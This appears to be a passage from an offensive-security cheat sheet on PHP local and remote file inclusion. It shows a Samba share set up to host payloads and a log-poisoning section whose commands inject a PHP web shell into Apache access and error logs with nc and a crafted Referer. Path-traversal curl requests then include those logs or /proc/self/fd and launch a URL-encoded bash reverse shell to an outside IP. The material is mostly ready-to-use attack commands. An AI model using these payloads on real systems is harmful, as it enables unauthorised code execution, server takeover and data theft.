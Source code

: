 ```
log level = 3
[share]
        comment = TEMP
        path = /tmp/smb
        writable = no
        guest ok = yes
        guest only = yes
        read only = yes
        browsable = yes
        directory mode = 0555
        force user = nobody
```

```
root@kali:$ chmod 0555 /tmp/smb
root@kali:$ chown -R nobody:nogroup /tmp/smb
root@kali:$ service smbd restart
root@kali:$ tail -f /var/log/samba/log.<HOSTNAME>
```

* [www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html](http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html)



### Log Poisoning


#### PHP

Access log (needs single `'` instead of double `"`):

```
root@kali:$ nc 127.0.0.1 80
GET /<?php system($_GET['cmd']); ?>

root@kali:$ curl 'http://127.0.0.1/vuln2.php?id=....//....//....//....//....//var//log//apache2//access.log&cmd=%2Fbin%2Fbash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.213%2F1337%200%3E%261%27'
Or
root@kali:$ curl 'http://127.0.0.1/vuln2.php?id=....//....//....//....//....//proc//self//fd//1&cmd=%2Fbin%2Fbash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.213%2F1337%200%3E%261%27'
```

Error log:

```
root@kali:$ curl -X POST 'http://127.0.0.1/vuln1.php' --form "userfile=@docx/sample.docx" --form 'submit=Generate pdf' --referer 'http://nowhere.com/<?php system($_GET["cmd"]); ?>'
root@kali:$ curl 'http://127.0.0.1/vuln2.php?id=....//....//....//....//....//var//log//apache2//error.log&cmd=%2Fbin%2Fbash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.213%2F1337%200%3E%261%27'
Or
root@kali:$ curl 'http://127.0.0.1/vuln2.php?id=....//....//....//....//....//proc//self//fd//2&cmd=%2Fbin%2Fbash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.213%2F1337%200%3E%261%27'
```


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 space before)